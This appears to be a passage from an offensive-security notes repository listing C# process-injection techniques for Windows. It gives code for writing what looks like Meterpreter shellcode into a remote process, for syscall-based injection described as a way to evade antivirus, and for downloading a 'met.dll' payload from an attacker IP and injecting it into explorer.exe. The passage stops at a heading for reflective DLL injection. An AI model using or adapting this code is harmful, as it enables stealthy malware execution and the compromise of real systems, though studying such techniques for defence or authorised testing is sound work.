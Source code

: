 [Full Source](../src/csharp/Inject.cs)

```
byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc...
IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
```

#### Process Injection via SysCalls

Use Nt* functions to evade AV

[Full Source](../src/csharp/DInvoke-Syscalls.cs)

```
// NtWriteVirtualMemory
stub = Generic.GetSyscallStub("NtWriteVirtualMemory");
NtWriteVirtualMemory ntWriteVirtualMemory = (NtWriteVirtualMemory) Marshal.GetDelegateForFunctionPointer(stub, typeof(NtWriteVirtualMemory));

var buffer = Marshal.AllocHGlobal(_shellcode.Length);
Marshal.Copy(_shellcode, 0, buffer, _shellcode.Length);
```

#### DLL Process Injection

Inject unmanaged DLL into remote process. *Note, writes DLL to disk.*

[Full Source](../src/csharp/DllInject.cs)

```
String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
String dllName = dir + "\\met.dll";

WebClient wc = new WebClient();
wc.DownloadFile("http://192.168.49.83/met.dll", dllName);

Process[] expProc = Process.GetProcessesByName("explorer");
int pid = expProc[0].Id;

IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
```

#### Reflective DLL Process Injection

Load unmanaged DLL into remote process *reflectively*.

